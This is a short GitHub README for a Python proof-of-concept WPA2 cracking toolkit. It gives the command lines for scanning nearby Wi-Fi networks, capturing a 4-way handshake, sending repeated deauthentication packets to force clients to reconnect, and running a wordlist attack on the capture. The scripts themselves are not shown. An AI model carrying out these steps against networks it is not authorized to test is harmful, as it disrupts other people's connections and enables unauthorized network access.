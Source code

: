 # WPA2-Crack
This a POC to show how a WPA-2 network can be cracked by computing the message integrity check in python.

## Installation
  ```python
  pip3 install -r requirements.txt
  ```
  
## Usage
  You should first run wifi-scan.py to discover wifi-network around you
  The interface needs to be in monitor mode, no checks is done yet :(
  ```python
  python3 wifi-scan.py --interface wlan0
  ```
  
  SSID name, BSSID and channel should be displayed for every wifi network
  You are now ready to capture the 4-Way handshake for a choosen network
  ```python
  python3 wifi-capture-handshake.py --interface wlan0 --bssid xx:xx:xx:xx:xx:xx --channel 1
  ```
  The script is now waiting for an authentication to happen, you can use the wifi-deauth.py script to hurry it
  The script will send deauthencation packets every 0.2 seconds to make an authentication happen
  example:
  ```python
  python3 wifi-deauth.py --interface wlan0 --bssid xx:xx:xx:xx:xx:xx
  ```
  
  Once you captured the wpa-handshake you are ready to start cracking the password
  ```python
  python3 wifi-crack.py --ssid name --wordlist wordlist.txt --pcap pcapfile.pcap
  ```
  Be sure to enter the good ssid, because no check is made so the script will never found the password
  
  If the password is in the wordlist, it will be found and display to screen.
  
  
